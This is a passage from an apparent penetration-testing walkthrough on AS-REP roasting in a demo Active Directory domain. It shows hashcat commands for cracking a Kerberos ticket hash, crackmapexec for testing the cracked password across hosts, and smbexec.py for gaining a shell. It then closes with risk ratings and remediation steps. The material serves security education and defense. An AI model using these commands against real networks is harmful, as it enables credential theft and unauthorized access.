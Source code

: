 ![](http://news.baycode.eu/wp-content/uploads/2023/11/25.png)

We've obtained the encrypted Ticket Granting Ticket, which can now be cracked using hashcat.

```
.\hashcat.exe -m 18200 ..\jbird.txt ..\rockyou.txt -r .\rules\NSA.rule -O
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/26.png)

## Roasted

The cracking attempt took 6 minutes and exposed the password as `Sunnyday123!`. This password can now be passed within the domain.

```
crackmapexec smb -u 'jbird' -p 'Sunnyday123!' -d democorp.com ./hosts.txt
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/27.png)

It appears that the credentials were valid, and one of the computers had this user configured as a Local Administrator.

```
./smbexec.py -codec cp866 'democorp.com/jbird:Sunnyday123!@10.10.24.100' -dc-ip 10.10.24.250 
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/28.png)

The `10.10.24.100` machine (along with a user) has been compromised once again.

## What is the risk assessment for AS-REP roasting?

**Likelihood: Very High** – AS-REP roasting allows any domain user to retrieve the password hash of any other Kerberos user accounts that have pre-authentication option disabled. Likelihood is very high when password policies are insufficient.

**Impact: Very High** – The impact is very high if compromised accounts have
administrative privileges, access to highly sensitive systems or data.

## What is the remediation?

- Kerberos preauthentication is enabled by default. Older protocols might not support preauthentication therefore it is possible to have this setting disabled. Make sure that all accounts have pre-authentication enabled whenever possible and audit changes to setting. 
- Enable AES Kerberos encryption (or another stronger encryption algorithm), rather than RC4, where possible.
- Consider using Group Managed Service Accounts or another third party product such as password vaulting.
- Enforce strong password policies and encourage good password practices (as described in the part 1 of the series).

<div id="0x06"></div>
